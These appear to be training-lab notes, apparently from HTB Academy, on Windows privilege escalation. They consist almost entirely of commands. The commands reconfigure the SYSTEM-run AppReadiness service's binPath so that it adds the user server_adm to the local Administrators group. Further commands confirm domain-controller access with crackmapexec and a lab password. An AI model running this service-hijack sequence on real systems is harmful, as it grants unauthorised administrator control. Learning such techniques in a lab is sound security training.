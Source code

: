 **Querying the AppReadiness Services
```
sc qc AppReadiness
```
- This service starts as SYSTEM

**Checking Service Permissions with PsService
- https://docs.microsoft.com/en-us/sysinternals/downloads/psservice
```
c:\Tools\PsService.exe security AppReadiness
```
- We have SERVICE_ALL_ACCESS

**Checking Local Admin Group Membership
```
net localgroup Administrators
```

**Modifying the Service Binary Path
```
sc config AppReadiness binPath= "cmd /c net localgroup Administrators server_adm /add"
```

**Starting the Service
```
sc start AppReadiness
```

**Confirming Local Admin Group Membership
```
net localgroup Administrators
```

**Confirming Local Admin Access on Domain Controller
```
crackmapexec smb 10.129.43.9 -u server_adm -p 'HTB_@cademy_stdnt!'
```
